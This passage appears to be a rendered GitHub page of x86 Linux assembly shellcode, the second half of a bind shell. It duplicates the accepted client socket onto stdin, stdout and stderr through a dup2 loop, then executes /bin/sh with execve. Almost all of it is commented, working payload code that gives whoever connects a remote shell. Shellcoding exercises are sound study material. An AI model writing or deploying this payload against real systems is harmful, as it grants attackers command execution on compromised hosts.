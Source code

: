 ```asm


; CHANGE STD FILE DESCRIPTORS
; int dup2(int oldfd, int newfd);
; syscall number: 63 (0x3f)
;
; Argument Values:
; oldfd = value in eax returned by accept()
; newfd = 0, 1, 2 iteratively (stdin, stdout, stderr)

  mov ebx, eax ; preserve clientfd from ACCEPT call
  mov cl, 3 ; 3 file descriptors (stdin, stdout, stderr)

dup_descriptors:
  dec cl ; hack for loop to work with values 2,1,0 instead of 3,2,1
  mul edx ; zero out eax
  mov al, 0x3f
  int 0x80 ; dup2 stdin
  inc cl ; hack for loop to work with values 2,1,0 instead of 3,2,1
  loop dup_descriptors


; EXECVE SHELL
; int execve(const char *filename, char *const argv[], char *const envp[]);
; syscall number: 11 (0xb)
;
; Argument Values:
; *filename = Memory address of a null terminated string "/bin/sh"
; *argv[] = [*"/bin/sh", 0x00000000]
; *envp = NULL

  xor ecx, ecx

  ; This has to be pushed in reverse because of how things move to the stack
  ; Pushing /bin/sh null terminated string
  push cx
  push dword 0x68732f2f ; push / / s h
  push dword 0x6e69622f ; push / b i n

  mov ebx, esp ; Store pointer to "/bin/sh" in ebx
  push ecx ; Push NULL
  push ebx ; Push *filename
  mov ecx, esp ; Store memory address pointing to memory address of "/bin/sh"
  mov al, 0xb
  int 0x80 ; Execute SHELL


; EXIT
  xor eax, eax
  mov al, 1;
  int 0x80;
```
